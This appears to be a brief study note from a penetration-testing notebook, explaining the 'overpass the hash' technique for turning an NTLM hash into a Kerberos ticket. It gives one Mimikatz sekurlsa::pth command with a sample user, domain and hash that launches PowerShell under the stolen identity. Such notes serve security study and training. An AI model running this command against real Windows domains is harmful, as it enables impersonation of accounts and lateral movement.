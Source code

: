 **The essence of the overpass the hash technique is to turn the NTLM hash into a Kerberos ticket and avoid the use of NTLM authentication**

### [[Mimikatz]]

```powershell
sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe
```
